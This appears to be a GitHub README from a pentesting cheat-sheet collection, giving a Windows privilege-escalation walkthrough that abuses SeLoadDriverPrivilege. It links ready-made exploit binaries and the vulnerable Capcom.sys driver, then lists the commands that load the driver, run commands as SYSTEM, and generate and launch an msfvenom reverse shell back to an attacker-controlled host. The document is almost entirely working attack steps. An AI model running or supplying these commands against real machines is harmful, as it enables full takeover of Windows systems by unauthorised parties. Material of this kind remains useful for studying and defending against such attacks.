 # SeLoadDriverPrivilege

If you see this privilege, doesn't matter if it says the priv is Disabled we can Enabled it and exploit it by uploading malicious driver and using that driver we can execute our payload.

# Exploitation

Upload the driver [eoploaddriver_x64.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/eoploaddriver_x64.exe), [Capcom.sys file](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/Capcom.sys), [ExploitCapcom.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/ExploitCapcom.exe) on traget machine under writable directory.

First we need to turn on the privilege of SeLoadDriverPrivilege that is disabled.
```markdown
.\eoploaddriver_x64.exe System\\CurrentControlSet\\dfserv C:\\Temp\\Capcom.sys
```

Now using ExploitCapcom.exe load Capcom.sys to target machine.
```markdown
.\ExploitCapcom.exe LOAD C:\\Temp\\Capcom.sys
```

After successfully loading Capcom.sys we can now run any cmd as privilege user with EXPLOIT keyword.
```markdown
.\ExploitCapcom.exe EXPLOIT whoami
```

Now we can generate a revshell with msfvenom.
You can also use other revshell.
On Attacker vm.
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe > shell.exe
```

Upload it on Traget machine.
Now execute the payload.
```markdown
.\ExploitCapcom.exe EXPLOIT shell.exe
```

You gonna get reverse shell as SYSTEM.

